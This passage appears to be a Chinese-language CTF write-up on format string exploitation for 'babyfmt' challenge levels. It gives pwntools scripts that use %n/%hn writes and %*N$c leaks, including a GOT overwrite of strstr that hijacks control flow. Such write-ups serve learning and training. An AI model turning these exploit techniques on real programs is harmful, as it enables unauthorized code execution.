 ```python

#binary_path = './babyfmt_level5.1'
binary_path = '/challenge/babyfmt_level5.1'
p = process(binary_path)

#gdb.attach(p,"b *0x4014D6")
#pause()
p.recvuntil(b"Send your data!")
payload = b"%5575x%38$hn%4770x%39$hn%9x%40$hn%2650x%41$hn"+p64(0x404148+0) + p64(0x404148+4) + p64(0x404148+6) + p64(0x404148+2) # 分成2+2+2+2的形式，并对值进行排序
p.send(payload)

p.interactive()
```

# 3. leak and write<br>
## 3.1 fmt在栈上，一次printf，泄露某个地址的值，并写入另一个地址<br>
借助`%*73$c`的力量，能够打印第73个参数（实际上是printf的第74个参数）的值，并通过`%31$n`写入第31个参数所指向的内存中。<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal=['tmux','splitw','-h']

binary_path = './babyfmt_level6.1'
p = process(binary_path)
gdb.attach(p,"b *0x401526")
pause()

p.recvuntil(b"Send your data!\n")
payload = (b"%*73$c"+b"%31$n")
payload = payload.ljust(17,b"a")
payload += p64(0x404130)
p.send(payload)
p.interactive()
```

## 3.2 fmt在栈上，一次printf写got表,劫持控制流<br>
与3.1的原理是一样的<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
# context.terminal=['tmux','splitw','-h']

binary_path = './babyfmt_level7.1'
p = process(binary_path)
binary = p.elf

#gdb.attach(p,"b *0x401491")
#pause()

payload = b"%*36$c%37$ln".ljust(16,b"a")
payload += p64(0x40133D) # func_addr you want to call
payload += p64(0x404088) # strstr got
p.recvuntil(b"vulnerability:")
p.send(payload)

p.interactive()
```